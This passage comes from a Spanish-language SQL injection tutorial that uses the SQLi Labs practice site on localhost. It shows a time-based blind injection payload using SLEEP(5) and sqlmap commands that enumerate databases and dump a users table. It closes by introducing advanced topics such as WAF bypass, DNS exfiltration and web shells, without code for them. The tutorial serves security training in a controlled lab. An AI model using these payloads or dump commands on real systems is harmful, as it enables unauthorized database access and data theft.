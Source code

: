 📌 **Si la página cambia, significa que es vulnerable a SQLi Blind.**

## **Práctica 9: SQLi Basado en Tiempo (Time-Based)**

**Objetivo:** Determinar vulnerabilidad a SQLi mediante `SLEEP()`.

**Pasos:**
1️⃣ Prueba:

```bash
http://localhost/sqli-labs/Less-5/?id=1 AND SLEEP(5) -- -
```

📌 **Si la página tarda 5 segundos en cargar, es vulnerable.**

## **Práctica 10: Automatización con SQLmap**

**Objetivo:** Extraer información usando SQLmap.

**Pasos:**
1️⃣ Ejecuta:

```sql
sqlmap -u "http://localhost/sqli-labs/Less-1/?id=1" --dbs
```

2️⃣ Lista las tablas:

```sql
sqlmap -u "http://localhost/sqli-labs/Less-1/?id=1" -D security --tables
```

3️⃣ Extrae datos:

```sql
sqlmap -u "http://localhost/sqli-labs/Less-1/?id=1" -D security -T users --dump
```

# **🛡️ SQLi Labs - Parte 2: Técnicas Avanzadas de SQL Injection**

🔍 **Nivel**: Avanzado
🎯 **Objetivo**: Aprender técnicas avanzadas de **Inyección SQL** utilizando **SQLi Labs** en entornos controlados.

## **📌 Introducción**

En esta segunda parte, exploraremos **métodos avanzados de SQL Injection**, incluyendo:

✅ **Evasión de filtros y bypass de WAFs**
✅ **Explotación de procedimientos almacenados**
✅ **Ejecución remota de comandos en el servidor**
✅ **Exfiltración de datos vía DNS**
✅ **Creación de shells web a través de SQL Injection**

📢 **Importante**:
👉 Todas las pruebas deben realizarse en entornos controlados y con autorización.
👉 **SQLi Labs** en `http://localhost/sqli-labs/` es ideal para estas prácticas.

